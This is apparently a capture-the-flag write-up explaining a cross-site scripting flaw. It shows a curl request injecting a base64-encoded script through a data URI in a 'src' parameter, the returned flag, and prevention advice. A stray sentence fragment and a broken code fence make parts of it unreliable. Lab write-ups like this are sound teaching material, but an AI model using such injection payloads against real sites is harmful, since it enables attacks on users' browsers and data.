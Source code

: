 ## CROSS SITE SCRIPTING

Cross-site Scripting (XSS) is another common security vulnerability in web applications. It occurs when an application includes untrusted data in a web page without proper validation or escaping, allowing an attacker to execute malicious scripts in the browser of an unsuspecting user. This can lead to a variety of harmful outcomes, including session hijacking, personal data theft, and manipulation of web content. 


## Explanation

This example demonstrates a more complex form of Cross-site Scripting (XSS), particularly exploiting data URI schemes along with base64 encoding to execute JavaScript code via a URL. This example also involves using curl to make an HTTP request.

```
curl -X GET "http://10.12.181.103/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk7PC9zY3JpcHQ+" | grep flag 
```
Target URL: http://10.12.181.103/?page=media&src=...
Parameter Exploited: src
Payload: data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk7PC9zY3JpcHQ+
This is a base64-encoded string representing the HTML and JavaScript code: <script>alert('XSS');</script>.

```
Which results into getting the flag:

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2127    0  2127    0     0   398k      0 --:--:-- --:--:-- --:--:--  519k
<center><h2 style="margin-top:50px;"> The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center><table style="margin-top:-68px;"></table>
```
and the application directly incorporates this into its HTML output without sanitization, the script will execute in the browser of any user who views that comment.


## XSS  Details

XThis attack leverages a DOM-based XSS vulnerability:

Data URI with Base64 Encoding: The attacker uses a data URI (data:text/html;base64,) followed by base64-encoded data to inject a script directly into the page. This method allows the attacker to embed complete HTML/JavaScript content in a URL.
No Validation/Sanitization: The application does not validate or sanitize the src parameter, allowing it to be used to inject arbitrary content into the web page.


## Prevention and Mitigation Strategies

To mitigate such vulnerabilities, consider the following measures:

Sanitize and Validate Input: Always sanitize and validate all inputs, especially those that can influence HTML content or JavaScript execution. This includes parameters like src that might accept URLs or data URIs.
Content Security Policy (CSP): Implement a strict CSP to prevent the execution of inline scripts and restrict resources to trusted domains. This would block malicious data URIs.
Use HTTP Headers: Set HTTP headers such as X-Content-Type-Options: nosniff and X-XSS-Protection: 1; mode=block to help prevent XSS attacks.
Regular Audits and Testing: Regularly audit your code for XSS vulnerabilities and conduct penetration testing to ensure that mitigation strategies are effective.